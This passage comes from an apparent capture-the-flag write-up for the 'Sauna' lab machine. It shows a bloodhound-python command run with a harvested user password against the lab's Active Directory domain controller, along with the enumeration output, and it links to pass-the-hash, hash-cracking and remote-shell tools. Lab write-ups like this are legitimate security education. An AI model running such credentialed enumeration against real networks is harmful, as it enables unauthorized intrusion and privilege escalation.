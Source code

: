   <img src="/assets/img/sauna/usertxt.png">
</div>

To escalate our privileges let's gather as much AD information as possible using Bloodhound. For this utilize `bloodhound-python`.

<div class="article-code">
{% highlight sh %}
jeanp@~$ bloodhound-python -d EGOTISTICAL-BANK.LOCAL -u fsmith -p Thestrokes23 -gc EGOTISTICAL-BANK.LOCAL -ns 10.10.10.175 -c all
INFO: Found AD domain: egotistical-bank.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (SAUNA.EGOTISTICAL-BANK.LOCAL:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Found 7 users
INFO: Found 52 groups
INFO: Found 3 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Done in 00M 11S
{% endhighlight %}
</div>


[Pass-The-Hash]: https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/pass-the-hash-attack/
[AD-Mindmap]: https://raw.githubusercontent.com/Orange-Cyberdefense/ocd-mindmaps/main/img/pentest_ad_dark_2023_02.svg
[Hashcat-Catalog]: https://hashcat.net/wiki/doku.php?id=example_hashes
[Username-Anarchy]: https://github.com/urbanadventurer/username-anarchy
[Evil-Winrm]: https://github.com/Hackplayers/evil-winrm
[WinPEAS]: https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md